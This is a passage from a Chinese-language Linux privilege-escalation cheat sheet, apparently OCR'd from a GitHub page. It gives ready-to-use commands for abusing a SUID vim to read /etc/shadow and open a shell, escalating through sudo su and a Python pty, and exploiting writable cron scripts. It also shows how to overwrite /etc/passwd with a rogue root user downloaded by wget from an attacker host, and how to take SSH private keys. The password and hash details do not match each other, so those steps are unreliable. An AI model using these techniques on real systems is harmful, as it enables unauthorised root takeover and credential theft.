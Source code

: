 ③ vim
Vim 的主要用途是作为文本编辑器。但是，如果它作为 SUID 运行，它将继承 root 用户的权限，因此它可以读取系统上的所有文件。

```
vim.tiny /etc/shadow   //读取文件
vim来打开shell
vim.tiny
# Press ESC key
:set shell=/bin/sh
:shell
```

#### 4.su

```
sudo su - #使用root用户登录，不用输入root密码即可切换
​
利用python获取交互Shell
python -c 'import pty;pty.spawn("/bin/sh")'
sudo su
```

#### 5.任务计划

```
ls -l /etc/cron*
cat /etc/crontab
```

在发现有一些计划任务时，我们就可以去检查是否存在一些问题导致权限的提升；
如权限配置不当777的执行脚本，则可以修改脚本内容进行提权；

#### 6.覆盖passwd提权

```
通过OpenSSL passwd生成一个新的用户hacker，密码为hack123

openssl passwd -1 -salt hacker 123456

$1$hacker$6luIRwdGpBvXdP.GMwcZp/

将hacker:$1$hacker6luIRwdGpBvXdP.GMwcZp/:0:0:/root:/bin/bash追加到passwd中

将Kali上的passwd文件下载到靶机etc目录下并覆盖原来的passwd文件

wget http://192.168.18.7/passwd -O /etc/passwd

然后在反弹shell中切换用户，或者使用ssh登录都可以
```

#### 7.ssh密钥提权

```
cat /etc/passwd | grep bash #查找bash的用户
用MD5校验，authorized_keys id_rsa 为同一个文件
跳转到.ssh目录 将id_rsa下载到本地设置权限 600 登录
假如root存在isa文件 且可以拿到，那么经过以上步骤就能拿到root权限
```
